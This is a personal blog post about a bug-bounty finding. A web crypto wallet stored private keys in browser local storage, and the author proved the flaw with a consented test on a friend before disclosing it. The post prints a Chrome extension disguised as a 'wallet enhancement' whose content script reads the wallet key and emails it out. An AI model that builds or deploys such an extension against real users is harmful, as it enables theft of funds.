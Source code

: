 +++
title = "Accidentally found a vulnerability in a crypto wallet and made $1,000"
description = "On joining the community of one of the proof-of-stake blockchains and finding a client vulnerability in its wallet app."
date = 2023-08-05
draft = false

[taxonomies]
tags = ["security", "crypto", "bug-bounty"]

[extra]
keywords = "crypto, security, bug bounty, vulnerability"
toc = false
+++

In January 2022, I joined the community of one of the proof-of-stake blockchains.
To play with what the protocol and its ecosystem offered, I created a wallet account on
the official website `https://wallet.****.org`. Apart from general curiosity, I was interested in
how they achieved security in a browser, especially in the age of extensions and
client-side vulnerabilities.

It turned out that when a user logged in, the wallet application (built in React) generated a set
of public and private keys and stored them in the browser's local storage. With my experience of
building authentication and authorization in distributed systems, I knew this was not the best
thing to do – in general, it's easy for a browser extension and client-side code to read data
from local storage [^1].

To prove this, I decided to [write a simple extension for Chrome](https://developer.chrome.com/docs/extensions/mv3/getstarted/development-basics/) that would retrieve keys from a victim's browser and send them to my
anonymous email address.

The root directory of my pickpocket extension looked like this:

```bash
.
├── content.js
├── email.min.js
├── index.html
└── manifest.json
```

The main files are the `manifest.json` and `content.js`. The former is essential for installing the extension.

```json
{
  "name": "X Wallet Enhancement",
  "version": "1.0",
  "manifest_version": 3,
  "content_scripts": [
    {
      "matches": [
        "https://wallet.****.org/*"
      ],
      "js": [
        "email.min.js",
        "content.js"
      ]
    }
  ]
}
```

`email.min.js` is just a client library from one of the cloud services that allows you to send
email directly from a browser without any server code. `index.html` is a blank HTML page that
displays nothing. The wallet hijacking logic lived in the `content.js` file:

```javascript
emailjs.init('user_****'); // instantiating an email delivery service

let templateParams = {
    // gathering information about the victim's browser
    from_name: navigator.userAgent,
    // fetching wallet keys from the local storage
    storage: window.localStorage.getItem('_*:wallet:active_account_id_**'),
};

// using a prepared email template to send an email with keys
const serviceID = 'service_****';
const templateID = 'template_****';

emailjs.send(serviceID, templateID, templateParams)
 .then(() => {
    console.log("Wallet keys were send!");
 }, (err) => {
    console.error(JSON.stringify(err));
 });
```

Yes, such a dummy script.

I packed all four files into a zip archive and kindly asked my friend, who also had
a wallet at `https://wallet.***.org`, to install my creation in his browser
(pretending to do some social engineering). Before doing so, I told him about my findings and
the theory I was trying to prove. He was happy to help, and the public and private keys of
this wallet account appeared in my inbox a few seconds after the browser extension was installed.
Next, I saved the keys to local storage in my browser and opened the wallet website.

Surprisingly, my friend's crypto-wallet balance was available to me, along with an option to
withdraw the funds. During a Zoom call with my victim friend, I transferred some of his funds to
an anonymous account and back. It was mind-blowing! A new, promising blockchain that had recently
closed an investment round had a major vulnerability in its wallet. Worst of all, they had 2-factor
authentication for users. Of course, not many people would activate it right away, and many didn't.

As an ethical developer, I created a vulnerability report, including the source code of
the browser extension and my thoughts on how to improve the security of the web application.
It was sent directly to the security team's email address on 18th of January. A few days later,
I had a call with the CISO of the blockchain protocol, who assured me that they were aware of
the issue and would address it in the next release. I was a little disappointed with the speed of
the response to the incident. Two days is an eternity when one speaks about users' money.
Nevertheless, the blockchain developers granted me their tokens in an amount equivalent to 1,000 USDT.

> 👉🏻 **Advice for application developers**: be aware of the technologies you use and their security aspects.

> 💡 **Advice for crypto users**: learn what security options an organisation offers to you,
> activate two-factor authentication as soon as you create a wallet account, don't store all of
> your funds in hot wallets.

---

[^1]: ## Worth reading

- [Is LocalStorage safe to use? | Snyk](https://snyk.io/blog/is-localstorage-safe-to-use/)
- [Please Stop Using Local Storage](https://www.rdegges.com/2018/please-stop-using-local-storage/)
- [Using HTTP cookies - HTTP | MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [HttpOnly | OWASP Foundation](https://owasp.org/www-community/HttpOnly)
